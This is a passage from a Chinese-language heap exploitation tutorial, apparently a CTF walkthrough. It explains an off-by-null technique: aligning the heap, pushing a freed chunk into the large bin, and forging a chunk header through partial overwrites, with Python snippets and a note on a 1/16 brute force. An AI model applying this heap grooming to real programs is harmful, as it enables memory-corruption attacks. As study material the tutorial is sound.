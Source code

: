 由於我們部分覆寫的時候會被附加一個 `\x00`，所以需要調整堆地址，爲了調試方便，我選擇這樣調整，具體原因馬上說

```python
add(0x2A50,'addralign') # 50
```

然後進行堆佈局

首先申請出一個較大的堆塊，釋放掉，再申請一個更大的堆塊，讓被釋放的堆塊進入 large bin

```python
add(0xFF8,'large bin') # 51
add(0x18,'protect') # 52


delete(51)
add(0x2000,'push to large bin') # 51
```

由於之前進行的堆地址調整，在我的 gdb 中，該 large bin 的低地址的低 16 位就都是 0 了（這也就是之前堆地址調整時那樣調整的原因。當然這只是在調試的情況下，實際打的時候只有低 12 位能保證爲零，需要爆破 4 位，概率 1/16）。

然後進行這樣的佈局

```python
add(0x28,p64(0) + p64(0x241) + '\x28') # 53 fd->bk : 0xA0 - 0x18

add(0x28,'pass-loss control') # 54
add(0xF8,'pass') # 55
add(0x28,'pass') # 56
add(0x28,'pass') # 57
add(0x28,'pass') # 58
add(0x28,'pass') # 59
add(0x28,'pass-loss control') # 60
add(0x4F8,'to be off-by-null') # 61
```

![](./figure/heap-setup.png)
